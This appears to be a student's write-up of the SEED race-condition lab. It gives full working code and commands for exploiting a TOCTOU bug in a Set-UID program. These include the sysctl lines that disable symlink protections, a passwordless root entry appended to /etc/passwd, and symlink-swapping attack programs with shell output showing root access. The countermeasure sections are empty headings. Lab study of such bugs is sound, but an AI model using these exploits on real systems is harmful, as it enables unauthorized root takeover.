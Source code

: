 # Race Condition Vulnerability Lab
- a race condition occurs when multiple processes access and manipulate the same data concurrently, and the outcome of the execution depends on the particular order in which the access takes place
- If a privileged program has a race-condition vulnerability, attackers can run a parallel process to "race" against the privileged program, with an intention to change the behaviors of the program
- topics:
    - race condition
    - sticky symlink protection
    - principle of least privilege

## Environment Setup
- Turn off countermeasures
    - Ubuntu has a built-in protection that restricts who can follow a symlink, symlinks in world-writable sticky directories (e.g., `/tmp`) cannot be followed if the follower and directory owner do not match the symlink owner
        - `$ sudo sysctl -w fs.protected_symlinks=0`
    - Ubuntu 20.04 introduces another security mechanism that prevents the root form writing files in `/tmp` that are owned by others
        - `$ sudo sysctl fs.protected_regular=0`

## Task 1: Choosing Our Target
- the entry for `root` in `/etc/passwd`: `root:x:0:0:root:/root:/bin/bash`
- a general entry contains 7 fields
    - `username:password:uid:gid:user_info:home_directory:login_shell`
    - the `password` field used to contain an encrypted password, now password hashes will be stored in a separate file `/etc/shadow` (in this case, this field will be `x`)
- it is more difficult to exploit race condition to append to both `/etc/passwd` and `/etc/shadow`, instead, we can put password in the second field (`x`) of an entry in `/etc/passwd` 
- the magic value in Ubuntu live CD for a passowrd-less account: `U6aMy0wojraho`, if we put this value in the password field of a user entry, we only need to hit the return key when prompted for a password
- test
    - append `test:U6aMy0wojraho:0:0:test:/root:/bin/bash` to `/etc/passwd`
        ```
        seed@...$ su test
        Password: (Press Enter)
        root@...#
        ```

## Task 2: Launching the Race Condition Attack
- goal: exploit race condition vulnerability in a vulnerable `Set-UID` program `vulp.c`, and the ultimate goal is to get root privilege, the critical step is to make `/tmp/XYZ` point to the `/etc/passwd` within the window between check (`access(fn, W_OK)`) and use (`fopen(fn, "a+")`)

### Task 2.A: Simulating a Slow Machine
- add `sleep(10)` between `access()` and `fopen()`
- invoke `vulp`
    ```
    $ ./vulp
    test:U6aMy0wojraho:0:0:test:/root:/bin/bash
    ```
- create symlink after enter the content to `vulp`
    ```
    $ ln -sf /etc/passwd /tmp/XYZ
    (after vulp finishes executing)
    $ su test
    Password: (Press Enter)
    # whoami
    root
    ```

### Task 2.B: The Real Attack
- remove `sleep()`
- typicall strategy is to run an attack program in parallel, perfect timing is very hard to achieve
- write the attack program in C:
    - `symlink("/etc/passwd", "/tmp/XYZ");`
    - `unlink("/tmp/XYZ");`
- automatically running `vulp` and detecting whether the attack is successful by monitoring whether `/etc/passwd` changes with a script
    ```
    #!/bin/bash

    CHECK_FILE="ls -l /etc/passwd"
    old=$($CHECK_FILE)
    new=$($CHECK_FILE)
    while ["$old"=="$new"]
    do
        echo "test:U6aMy0wojraho:0:0:test:/root:/bin/bash" | ./vulp
        new=$(CHECK_FILE)
    done
    echo "STOP... The passwd file has been changed"
    ```
- the core code of our target program `atk.c`
    ```
    while(1) {
        symlink("/etc/passwd", "/tmp/XYZ");
        unlink("/tmp/XYZ");
        symlink("/etc/passwd", "/tmp/XXX");
        unlink("/tmp/XYZ");
    }
    ```
- **attack succeeded**: we run our attack program, repeatedly link `/tmp/XYZ` to `/etc/passwd` and a `seed` owned file `/tmp/XXX`, and then run `target_process.sh`
    ```
    $ gcc -o atk atk.c
    $ ./atk
    ```
    ```
    $ ./target_process.sh
    Permission denied
    Permission denied
    Permission denied
    Permission denied
    Permission denied
    STOP... The passwd file has been changed
    $ su test
    Password:
    #
    ```

- **attack failed**: in most cases, after a few loops, the owner of `/tmp/XYZ` becomes `root`, and the attack will not success, to imporve the chance to success, each time this happens, we should manually delete `/tmp/XYZ`
    ```
    $ ls -l /tmp/XYZ
    -rw-rw-r-- 1 root seed 0 Jan 30 23:45 /tmp/XYZ
    ```
    - I run `atk` many times, and find that in most cases the attack fails within several seconds, which means that the time window between `unlink` and `symlink` is quite large, write a script to directly run 2 commands `ln -sf /etc/passwd /tmp/XYZ` and `ln -sf /tmp/XXX /tmp/XYZ` to reduce the time window between link and unlink, and the chance of success improved

### Task 2.C: An Improved Attack
- when the owner of `/tmp/XYZ` becomes `root`, our attack program can never remove or `unlink()` it, because the `/tmp` folder has a "sticky" bit on, meaning that only the owner of the file can delete the file, even though the folder is world-writable
- the reason for this problem is that out attack program itself has a race condition vulnerability, the attack program is context switched out right after `unlink()`, but before it links the name to another file (`symlink()`), and the target `Set-UID` program gets a change to run `fopen(fn, "a+")`, it creates a new file with `root` being the owner

- In task `2.B`, I used `atk.sh` to reduce the possibility that the race condition between `unlink` and `link` happens, but it still exists, actually, there is a way to make `unlink` and `link` atomic in C
    - `renameat2()` allows us to atomically switch 2 symlinks
    - usage: `renameat2(0, "/tmp/XYZ", 0, "/tmp/ABC", RENAME_EXCHANGE)`
- improved attack code `imp_atk.c`
    ```
    #define _GNU_SOURCE

    #include <unistd.h>
    #include <stdio.h>
    int main() {
        unlink("/tmp/XYZ");
        unlink("/tmp/ABC");
        symlink("/etc/passwd", "/tmp/XYZ");
        symlink("/tmp/XXX"   , "/tmp/ABC");
        while(1) {
            // exchange 2 symlinks atomically
            renameat2(0, "/tmp/XYZ", 0, "/tmp/ABC", RENAME_EXCHANGE);
        }
        return 0;
    }
    ```
- test: in most cases, the attack succeed in seconds
    ```
    $ gcc -o imp_atk imp_atk.c
    $ ./imp_atk
    ```
    ```
    $ ./target_process.sh
    Permission denied
    Permission denied
    STOP... The passwd file has been changed
    $ su test
    Password:
    #
    ```

## Task 3: Countermeasures

### Task 3.A: Principle of least privileges

### Task 3.B: Using Ubuntu's built-in scheme